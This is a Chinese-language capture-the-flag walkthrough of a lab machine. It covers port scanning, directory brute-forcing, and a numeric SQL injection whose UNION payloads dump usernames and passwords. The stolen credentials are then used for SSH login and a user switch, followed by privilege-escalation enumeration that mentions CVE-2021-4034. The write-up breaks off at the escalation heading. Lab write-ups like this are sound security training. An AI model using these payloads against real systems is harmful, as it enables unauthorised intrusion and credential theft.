知道靶机ip为192.168.174.135

```
nmap -sT -sV -sC -O -p- --min-rate 10000 192.168.174.135 -oA /nmapscan/tcp
```

```
nmap -sU --min-rate 10000 -p- 192.168.174.135 -oA /nmapscan/udp
```

分别进行tcp和udp扫描



从tcp扫描中看到只有两个端口开放，分别是22和8080

先查看8080端口，url为http://192.168.174.135:8080



意思是“你好。本网站目前正处于开发中，请稍后再来查看。”

那就先进行目录爆破

```
gobuster dir -u "http://192.168.174.135:8080" -w "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt"
```

爆破后发现只有一个robots.txt



没有什么特别的，这种情况下可以随便编造url试试是否有反应



发现报错页面

注意到还有一个mercuryfacts/目录



进入后如下

- #### Seelist



感觉没什么特别的

- #### Load a fact



##### 看到id：1

又看到目录



瞬间觉得此处应该存在sql注入（这里是“数字型注入“，不是”字符型注入“）



进行注入

```
1 order by 1;--+
```

发现只有一列，那就不需要占位符

```
1 union select database();--+
```

数据库是'mercury'

```
1 union select table_name from information_schema.tables where table_schema='mercury';--+
```



看到有两个表，分别是'users','facts'

```
1 union select column_name from information_schema.columns where table_name='users';--+
```



三列，分别是'id','password','username'

```
1 union select concat(id,':',username,'=',password) from users;--+
```



感觉这个webmaster最可疑，先尝试ssh登录这个



第一个flag到手，接下来查看用户下另一个目录的信息



在notes.txt中看到两个用户信息，webmaster我们有，猜测linuxmaster是更高级的用户，有更多的信息

所以先进行base64解码



得到密码

```
su linuxmaster
```

提权成功

先进行信息收集

```
find / -perm -u=s -type f 2>/dev/null
```



```
id
uname -a
```



```
sudo -l
```



------

（有一种比较简单的方法，但不是这个靶机的重点，方法是SUID二进制文件提权 (利用 CVE-2021-4034)，）



------

### 提权

本靶机更注重这种方法